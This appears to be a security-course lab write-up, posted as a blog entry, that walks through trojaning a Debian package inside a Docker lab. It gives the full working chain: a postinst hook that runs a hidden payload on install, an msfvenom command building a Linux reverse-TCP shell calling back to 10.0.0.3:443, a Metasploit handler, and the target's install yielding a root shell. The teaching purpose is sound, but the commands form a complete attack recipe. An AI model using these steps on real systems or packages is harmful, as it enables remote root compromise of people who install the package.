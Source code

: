 ```yaml
---
layout: post
title: Malware Debian
category: system_security
author: 'reo'
tags: python seclab docker privilege_escalation
mathjax: 
---
```


Credits for this challenge go to KC Udonsi. We will use a malicious Debian package
(a trojan)
to install a RAT (Remote Admin Tool) into the target's device.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

As usual when working with networks, we start with our docker-compose file

```yaml
version: '3'

services:
    
  alice:
      image: # private image
      container_name: alice
      tty: true
      networks:
        internal:
          ipv4_address: 10.0.0.2
      cap_add:
        - NET_ADMIN
        - SYS_ADMIN
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      cap_add:
        - NET_ADMIN
      volumes:
          - .:/shared
      networks:
        internal:
          ipv4_address: 10.0.0.3

networks:
  internal:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

and start the exercise with

```
$ docker-compse up -d
```

<br>

***

## Manipulating the Deb

***

We open an interactive shell for Mallory and start by extracting (`-x`) a legitimale deb file
`legitimate_0.1.0_all.deb`.

```
$ docker exec -it mallory bash
# dpkg -x legitimate_0.1.0_all.deb legitimate_0.1.0_all
```

next, we create a file `legitimate_0.1.0_all/DEBIAN/control` which contains

```
Package: legitimate
Version: 0.1.0
Section: misc
Priority: optional
Architecture: i386
Maintainer: mallory
Description: Just another trojan
```

; A second `legitimate_0.1.0_all/DEBIAN/postinst` with content

```sh
#!/bin/sh
chmod ugo+x /usr/share/payload && /usr/share/payload &
```

and give it execute permissions (`ugo` is to add permissions to the *owner*, *groups*, and *others*).

```
$ chmod ugo+x
```

<br>

***

## Injecting the Malware (msfvenom)

***

Finally, we can craft our Trojan Horse malware using `msfvenom`. This attack will
allow us to open a [reverse shell](https://en.wikipedia.org/wiki/Reverse_connection).

The used options here are

- `-a` specifies the architecture
- `-p` specifies the payload
- `-b` a list of "bad" characters or characters to avoid
- `-f` the output format
- `-o` the output file of the payload
- `LHOST` and `LPORT` are the IP and port we will be listening on for connections

```
# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=10.0.0.3 LPORT=443 -b "\x00" -f elf -o legitimate_0.1.0_all/usr/share/payload
```

Finally, we repackage the malware into a deb file

```
# dpkg-deb --build legitimate_0.1.0_all
```

All that remains now is to distribute the malware. For simplicity, we can have Mallory
run a server using

```
# python -m SimpleHTTPServer 80
```

Mallory can also open a second shell session again using Metasploit
[msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)
to handle the reverse shell server.

The options used are

- `-q` or **quiet** to not print the banner on startup
- `-x` to execute the string which follows as a command

```
# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 10.0.0.3; set LPORT 443; run; exit -y"
PAYLOAD => linux/x86/shell/reverse_tcp
LHOST => 10.0.0.3
LPORT => 443
[*] Started reverse TCP handler on 10.0.0.3:443
[*] Starting the payload handler...
```

<br>

***

## The Target Installs the Trojan

***

with these two open, we suppose Alice obtains and installs (`-i`) the file.

```
$ docker exec alice wget http://10.0.0.3/legitimate_0.1.0_all.deb
$ docker exec alice dpkg -i legitimate_0.1.0_all.deb
```

Upon installing, we notice Mallory's shell has updated

```
[*] Sending stage (36 bytes) to 10.0.0.2
[*] Command shell session 1 opened (10.0.0.3:443 -> 10.0.0.2:44088)
```

we now have a running shell and though it may be missing the traditional
prompt we see that commands still work as intended.

```
whoami
root
```

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

